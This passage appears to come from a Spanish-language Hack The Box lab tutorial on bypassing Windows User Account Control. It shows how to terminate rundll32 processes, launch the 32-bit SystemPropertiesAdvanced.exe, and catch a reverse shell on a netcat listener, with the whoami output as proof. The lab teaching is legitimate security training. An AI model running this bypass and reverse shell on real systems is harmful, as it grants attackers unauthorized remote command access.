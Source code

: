 ```shell-session
SeTimeZonePrivilege           Change the time zone                 Disabled
```

#### Ejecutar SystemPropertiesAdVanced.exe en Target Host

Antes de continuar, debemos asegurarnos de que cualquier instancia del`rundll32`El proceso de nuestra ejecución anterior se ha terminado.

Código:CMD

```cmd
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A

C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.
```

Ahora, podemos probar la versión de 32 bits de`SystemPropertiesAdvanced.exe`del host objetivo.

Código:CMD

```cmd
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

#### Recibir conexión de regreso

Volviendo a ver a nuestro oyente, deberíamos recibir una conexión casi al instante.

  Control de la cuenta de usuario

```shell-session
xnoxos@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah


C:\Windows\system32>whoami /priv

whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
```